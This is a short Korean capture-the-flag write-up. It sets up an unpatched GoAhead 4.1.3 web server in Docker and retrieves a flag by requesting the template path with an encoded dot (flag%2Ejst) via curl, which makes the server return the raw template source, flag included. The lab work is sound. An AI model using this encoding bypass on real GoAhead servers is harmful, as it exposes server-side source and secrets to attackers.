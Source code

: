 # 키워드
- jst
- 1day


# 코드
```dockerfile
FROM ubuntu:18.04

# Install prereqs
RUN apt update && apt install -y wget git make gcc

# Setup goahead
WORKDIR /goahead
RUN git clone https://github.com/lemonholic/goahead-archive.git
WORKDIR /goahead/goahead-archive
### Todo: Switch to the patched version.
### RUN git checkout v4.1.3.1
RUN git checkout v4.1.3

## Build/install
RUN make ME_GOAHEAD_SSL=0 ME_COM_SSL=0 && make install

# Copy in content files
COPY ./deploy/www /var/www/goahead
COPY ./deploy/goahead /etc/goahead/
WORKDIR /etc/goahead/
COPY ./deploy/start.sh .
CMD ["./start.sh"]

```

- index.html
```html
<h1>My Web Server</h1>

<a href="/jst/flag.jst">flag is here</a>
```

- /jst/flag.jst
```html
<html>
	<body>
		<h1>Can you see flag?</h1>
		<% write("read me"/*this is flag [**FLAG**]*/); %>
	</body>
</html>

```

# 분석
놀랍게도 코드가 저게 끝임
- https://github.com/f2koi/goahead-archive/tree/4.X 여기에서 1day 취약점을 찾으라는 느낌이 강했음
- 4.1.3 이슈를 확인해보니 인코딩 관련 이슈가 있었음

# exploit
- 브라우저에서는 자동으로 URL인코딩이 들어가므로 curl로 우회(?)했음
```sh
>curl http://host3.dreamhack.games:20020/jst/flag%2Ejst
<html>
        <body>
                <h1>Can you see flag?</h1>
                <% write("read me"/*this is flag DH{703ab75ab49d02bd4d7abdcb4e7ba39c}*/); %>   
        </body>
</html>
```
